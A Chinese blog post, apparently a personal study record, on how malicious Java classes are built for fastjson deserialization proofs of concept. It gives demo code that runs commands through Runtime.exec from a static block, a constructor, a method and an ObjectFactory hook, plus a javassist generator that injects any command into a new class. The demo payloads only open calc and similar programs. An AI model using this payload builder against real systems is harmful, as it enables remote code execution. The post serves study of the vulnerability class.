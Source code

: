 Title: Java反序列化漏洞学习实践六：类的加载机制和恶意类构造
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### **0x0、背景说明**

在fastjson的反序列化漏洞PoC中，有一种是利用了static{}静态代码块在类的初始化（加载过程的一个环节）时会被执行这种特性。本文主要总结该思路中恶意类的构造方法和其触发方式，以全面了解fastjson反序列化漏洞PoC构造的过程。

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！

### **0x1、恶意类构造及其触发方式**

如思维导图所示，总结了可以构造恶意类的几种方式：

1. 利用静态代码块，在类的加载环境---初始化时被执行。（重点）
2. 利用构造函数，在类实例化时执行。当然，在它前面必须执行初始化过程。
3. 利用自定义函数，需要在函数调用时执行。
4. 利用接口的重写方法，应该也是在函数调用时执行。

![](img/JavaDeserStep6/恶意类的构造.png)

demo代码：

```java
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class  evilClassTest{
    public static void main(String[] argv){
        try {
			//触发方式1
        	Class<?> xxx = Class.forName("EvilClasses.evilClazz");//只会执行静态代码块中的命令。
        	evilClazz cs = (evilClazz)xxx.newInstance();//这里触发构造函数中的命令。
        	
        	Class<?> yyy = Class.forName("EvilClasses.evilClazz",true,ClassLoader.getSystemClassLoader());
        	//只会执行静态代码块中的命令,但它可以执行指定类加载器，更为灵活
        	evilClazz cs1 = (evilClazz)yyy.newInstance();//这里触发构造函数中的命令。
        	
        	
        	//触发方式2
    		Class<?> c1 = ClassLoader.getSystemClassLoader().loadClass("EvilClasses.evilClazz"); //这里不会触发静态代码块，因为是隐式加载方式。
    		c1.newInstance();//这里会触发静态代码块后，触发构造函数
			
    		
			//触发方式3，应该和方式2本质上是一样的！
        	new evilClazz();   //会执行静态代码块和构造函数中的命令
        	
        	
        	//触发方式4
        	new evilClazz().fun();//静态代码，构造函数，自定义函数都会触发。函数调用方式，不用多说
        	
        	//凡是能触发构造函数中代码的方法，都能触发静态代码块中的代码；凡是能触发自定义动态函数中代码的方法，都能触发静态代码块中的方法。
        	
        	//getObjectInstance()函数的代码如何触发？和web框架环境有关系，需要学习！！
        	
        	
		} catch (Exception e) {
			e.printStackTrace();
		}
    }
}

class evilClazz implements ObjectFactory{
	public static String aaa;
	
	//静态代码块命令执行
    static
    {
        try {
            Runtime.getRuntime().exec("explorer.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	
	//构造函数命令执行
    evilClazz(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //自定义函数
    public void fun() {
        try{
            Runtime.getRuntime().exec("notepad.exe");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //getObjectInstance命令执行,是因为实现了ObjectFactory接口。
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
    	try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
        return null;
    }
}

```

 

### 0x2、用javassist字节码操作动态创建恶意类

为什么需要动态创建恶意类？

1.防止缓存。因为类的加载是有缓存的？？？当短时间重复加载一个类时可能不会执行加载过程，从而命令执行失败？？？（不确定）

2.动态输入命令，更加灵活。

```java
import java.io.File;
import java.net.URL;
import java.net.URLClassLoader;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtField;
import javassist.CtMethod;
import javassist.CtNewMethod;
import javassist.bytecode.AccessFlag;

public class createEvilClass {
	
	public static byte[] create(String cmd) {
		
		ClassPool pool = ClassPool.getDefault();
		//会从classpath中查询该类
		CtClass evilclass = pool.makeClass("Evil");
		try {
			CtField f= new CtField(CtClass.intType,"id",evilclass);//获得一个类型为int，名称为id的字段
			f.setModifiers(AccessFlag.PUBLIC);//将字段设置为public
			evilclass.addField(f);//将字段设置到类上
			
			//添加静态代码块
			CtConstructor ci = evilclass.makeClassInitializer();
			ci.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");
			 
			//添加构造函数
			CtConstructor ctConstructor1 = new CtConstructor(new CtClass[]{}, evilclass);//指定参数构造器
	        ctConstructor1.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");//$1代表第一个参数，$2代表第二个参数，$0代表this
			evilclass.addConstructor(ctConstructor1);
			
			//添加方法
			CtMethod helloM=CtNewMethod.make("public void fun(){try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}",evilclass);
			evilclass.addMethod(helloM);
			
			evilclass.writeFile("D:\\");//将生成的.class文件保存到磁盘
			byte[] b=evilclass.toBytecode();
			
			return b;
		}catch(Exception e) {
			e.printStackTrace();
		}
		return null;
	}
	
	public static void main(String[] args) {

		
/*		//从本地或者网络加载类
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class cls = cl.loadClass("Evil");
			cls.newInstance();
			//
			
			
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
		
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class yyy = Class.forName("Evil",true,cl);
			
		} catch (Exception e) {
			e.printStackTrace();
		}
		
		
		byte[] st = createEvilClass.create("calc");
	}

}
```

通过Bytecode Viewer查看生成的代码，并尝试加载，以测试是否正确。

![](img/JavaDeserStep6/Evil.class.png)



### 0x3、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[秒懂Java动态编程（Javassist研究）](https://blog.csdn.net/ShuSheng0007/article/details/81269295)